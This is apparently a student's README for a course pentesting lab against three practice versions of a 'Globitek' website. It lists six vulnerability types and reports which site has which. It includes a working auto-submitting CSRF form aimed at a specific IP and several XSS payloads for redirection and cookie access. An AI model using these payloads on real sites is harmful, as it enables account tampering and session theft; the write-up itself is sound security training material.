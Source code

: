# Project 8 - Pentesting Live Targets

Time spent: 8 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection. Reason: Developer forgot to properly sanitize salesperson.php query.

<img src='Blue1.gif' title='SQLI'/>

Vulnerability #2: Session Hijacking/Fixation. Reason: Website does not check if user-agent is the same as the one used when first user login, cookie set without HttpOnly and secure flag, and PHPSESSID is not regenerated and is allowed to be a year old.

<img src='Blue2.gif' title='Session Hijacking/Fixation'/>


## Green

Vulnerability #1: Username Enumeration. Reason: Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability. 

<img src='Green1.gif' title='Username Enumeration'/>

Vulnerability #2: Cross-Site Scripting. Reason: Detected that Stored XS Script was run in admin feedback panel.

<img src='Green1.gif' title='Cross-Site Scripting'/>


## Red

Vulnerability #1: Insecure Direct Object Reference. Reason: Developer forgot to check if object reference request is made public or not. Other two websites properly redirected user to public/territories folder.

<img src='Red1.gif' title='IDOR'/>

Vulnerability #2: Cross-Site Request Forgery. Reason: Developer forgot to check for CSRF token on salesperson edit form submit, check for domain name, and disallow loading responses onto iframes. 

<img src='Red2.gif' title='Cross-Site Request Forgery'/>

Script used:

```
<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

# Bonus Objective 2

- It is possible to redirect a user to another website by entering the following code in the feedback textbox Green's contact form `<script>window.location.href = "http://example.com";</script>` then submitting.
- The cookie single cookie, PHPSESSID, used throughout the website, it is set using HttpOnly, which prevents it from being accessed in javascript on modern web browsers, but older browsers (Firefox < 3, IE < 6 SP1) might be still be vulnerable, viewable by using XSS `<script>alert(document.cookie);</script>` or `<script>var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      alert(this.getAllResponseHeaders());
    }
  };
  xmlhttp.open("GET", “/“, true);
  xmlhttp.send();</script>`.
- It is possible to set a cookie by using XSS, `<script>document.cookie="username=something";</script>`, in Green's contact form.
 
Testing Bonus Objective 2 

<img src='Bonus2.gif' title='Cross-Site Scripting'/>

## Notes


